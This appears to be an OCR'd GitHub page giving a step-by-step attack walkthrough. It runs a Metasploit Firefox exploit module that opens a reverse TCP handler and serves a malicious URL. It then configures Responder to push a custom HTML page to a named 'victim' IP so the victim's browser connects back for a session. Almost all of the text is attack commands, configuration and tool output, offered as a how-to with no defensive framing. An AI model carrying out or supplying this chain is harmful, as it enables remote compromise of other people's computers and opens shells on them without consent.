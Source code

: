 msf5 > search firefox

msf5 > use exploits/multi/browser/firefox_tostring_console_injection.rb


this exploit open reverse TCP handler

msf5 exploit(multi/browser/firefox_tostring_console_injection) > run

[*] Started reverse TCP handler on 192.168.1.9:4444 
[*] Using URL: http://0.0.0.0:8080/DhJRtwm8IvXO
[*] Local IP: http://192.168.1.9:8080/DhJRtwm8IvXO
[*] Server started.


Now we will use the local Ip URL to open the session
all we need is for the victim to get that file


We will use responder to do that
------------------------------------------------------------------------------

Responder
-----------------

#Setting up our redirect:

root@kali:~/Responder/files# nano zyad.hml

#And then editing the Responder.conf file:

[HTTP Server]

; Set to On to always serve the custom EXE

Serve-Always = Off

; Set to On to replace any requested .exe with the custom EXE

Serve-Exe = Off

; Set to On to serve the custom HTML if the URL does not contain .exe

; Set to Off to inject the 'HTMLToInject' in web pages instead

Serve-Html = on

; Custom HTML to serve

HtmlFilename = files/zyad.html

#Then firing up Responder:

Which is now only listening for requests from our victim. 

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.1.9]
    Challenge set              [1122334455667788]
    Respond To                 ['192.168.1.8']

We wait for the request:
